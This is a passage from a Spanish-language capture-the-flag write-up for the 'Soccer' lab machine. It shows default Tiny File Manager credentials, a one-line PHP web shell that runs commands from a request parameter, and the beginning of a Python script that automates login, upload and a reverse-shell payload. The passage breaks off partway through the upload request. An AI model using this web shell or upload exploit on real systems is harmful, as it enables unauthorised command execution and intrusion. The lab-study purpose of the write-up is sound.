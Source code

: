 En el archivo ***tinyfilemanager.php*** del directorio *tiny* podemos ver la configuración del servicio. Podemos encontrar las credenciales ***admin:admin@123*** y ***user:12345***.

## PHP file upload

En el directorio principal no tenemos permisos para subir archivos, pero en el directorio *tiny/uploads* sí que podremos. La ***webshell*** será:

```php
<?php
	system($_REQUEST['cmd'])
?>
```

La subimos:

![imagen 1](imga1.png)

Al hacer clic en el archivo y luego a *open*, podremos ejecutar comandos a través del parámetro ***cmd***:

![imagen 2](image2.png)

En este caso, he ejecutado ***whoami*** a través del parámetro ***cmd***. El siguiente *script* automatiza la subida del archivo y la ejecución de un payload, que envía por el puerto *443* una *reverse shell*:

```python
#!/usr/bin/python3

import signal,requests,sys

#Ctrl+C
def defhandler():
    print("[*] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT,defhandler)

#Variables globales 
url="http://soccer.htb/tiny/"
burp = {'http': 'http://localhost:8080'}

def login():
    urlLogin = url + "tinyfilemanager.php?p=tiny%2Fuploads"

    headers = {
        "Cookie": "filemanager=gmtimk86nahp3klphn54427m2u"
    }

    data = {
        "fm_usr":"admin",
        "fm_pwd":"admin@123"
    }

    requests.post(urlLogin, headers=headers, data=data)
	
def rce():
    urlUpload =url + "tinyfilemanager.php?p=tiny/uploads"
    headers = {
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryc2w6QHu2wMC6QJV3",
        "Cookie": "filemanager=gmtimk86nahp3klphn54427m2u"
    }

    data = """
------WebKitFormBoundaryc2w6QHu2wMC6QJV3
```